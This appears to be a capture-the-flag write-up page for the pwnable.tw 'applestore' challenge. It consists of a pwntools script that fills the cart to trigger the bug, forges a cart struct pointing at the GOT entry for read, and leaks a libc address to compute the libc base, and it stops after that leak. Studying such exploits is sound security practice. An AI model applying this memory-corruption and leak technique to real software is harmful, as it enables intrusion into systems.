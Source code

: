 
# Full script

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./applestore")
libc = ELF("./libc_32.so.6")
ld = ELF("./ld-2.23.so")

context.binary = elf

def conn():
    if args.LOCAL:
        return process([ld.path, elf.path], env={"LD_PRELOAD": libc.path})
    else:
        return remote("chall.pwnable.tw", 10104)


r = conn()

def list():
	r.sendafter(b'>', b'1')

def add(idx):
	r.sendafter(b'>', b'2')
	r.sendafter(b'> ', idx)

def delete(idx):
	r.sendafter(b'>', b'3')
	r.sendafter(b'Item Number> ', idx)

def cart(confirmation):
	r.sendafter(b'>', b'4')
	r.sendafter(b'> ', confirmation)

def checkout(confirmation):
	r.sendafter(b'>', b'5')
	r.sendafter(b'> ', confirmation)

for i in range(19):
	add(b'1')


for i in range(6):
	add(b'3')

add(b'4')

checkout('y')

def create_cart_struct(name_ptr, price_int, next_ptr=0, prev_ptr=0):
	return p32(name_ptr) + p32(price_int) + p32(next_ptr) + p32(prev_ptr)

cart(b'yy' + create_cart_struct(elf.got['read'], 0x8049028))

print(r.recvuntil(b'27: '))

LIBC_READ_ADDR = u32(r.read(4))
libc.address = LIBC_READ_ADDR - libc.symbols['read']

```

[show-line-numbers]: false